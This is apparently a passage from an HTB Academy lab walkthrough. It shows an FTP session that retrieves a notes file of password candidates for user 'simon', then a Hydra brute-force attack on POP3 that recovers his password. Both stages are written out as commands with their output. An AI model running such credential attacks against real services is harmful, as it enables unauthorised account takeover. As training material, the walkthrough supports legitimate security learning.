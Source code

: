 ### File System Exploration
```bash
# HTB Academy FTP directory listing
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   2 ftp      ftp          4096 Apr 18  2022 simon
226 Transfer complete

# Navigate to user directory
ftp> cd simon
250 CWD command successful

ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           153 Apr 18  2022 mynotes.txt
226 Transfer complete

# Download intelligence file
ftp> get mynotes.txt
local: mynotes.txt remote: mynotes.txt
200 PORT command successful
150 Opening BINARY mode data connection for mynotes.txt (153 bytes)
226 Transfer complete
153 bytes received in 0.00 secs (53.1723 kB/s)

ftp> bye
221 Goodbye.
```

**Intelligence Gathered**: Password wordlist file `mynotes.txt` for user `simon`

---

## 🔐 Phase 4: POP3 Credential Attack

### Password List Analysis
```bash
# HTB Academy wordlist content (mynotes.txt contains potential passwords)
cat mynotes.txt
# (Contains various password candidates for simon user)
```

### POP3 Password Brute Force
```bash
# HTB Academy POP3 credential attack using discovered wordlist
hydra -l simon -P mynotes.txt pop3://10.129.183.208

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-27 17:32:00
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking pop3://10.129.183.208:110/
[110][pop3] host: 10.129.183.208   login: simon   password: 8Ns8j1b!23hs4921smHzwn
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-27 17:32:05
```
